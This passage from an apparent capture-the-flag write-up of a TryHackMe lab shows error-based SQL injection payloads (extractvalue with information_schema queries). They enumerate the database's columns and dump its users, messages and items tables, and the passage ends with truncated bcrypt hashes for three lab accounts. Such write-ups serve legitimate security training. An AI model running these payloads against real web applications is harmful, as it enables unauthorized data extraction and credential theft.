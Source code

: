```sql
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="users" LIMIT 1,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="users" LIMIT 2,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="users" LIMIT 3,1)))--
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a41.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a42.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a43.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a44.png)

- Database `marketplace`'s column names: 
	- Table `items`: `id`, `author`, `title`, `description`, `image`.
	- Table `messages`: `id`, `user_from`, `user_to`, `message_content`, `is_read`, 
	- Table `users`: `id`, `username`, `password`, `isAdministrator`, 

**Retrieve database `marketplace`'s data in all tables:**
```sql
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(id,0x3a,username,0x3a,password,0x3a,isAdministrator) FROM users LIMIT 0,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(id,0x3a,username,0x3a,password,0x3a,isAdministrator) FROM users LIMIT 1,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(id,0x3a,username,0x3a,password,0x3a,isAdministrator) FROM users LIMIT 2,1)))--

1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(id,0x3a,user_from,0x3a,user_to,0x3a,message_content,0x3a,is_read) FROM messages LIMIT 0,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(id,0x3a,user_from,0x3a,user_to,0x3a,message_content,0x3a,is_read) FROM messages LIMIT 1,1)))--

1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(id,0x3a,author,0x3a,title,0x3a,description,0x3a,image) FROM items LIMIT 0,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(id,0x3a,author,0x3a,title,0x3a,description,0x3a,image) FROM items LIMIT 1,1)))--
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a45.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a46.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a47.png)

**Credentials from table `users`:**
```
system:$2b$10$83pRYaR/d4ZWJVE
michael:$2b$10$yaYKN53QQ6ZvPz
jake:$2b$10$/DkSlJB4L85SCNhS
```
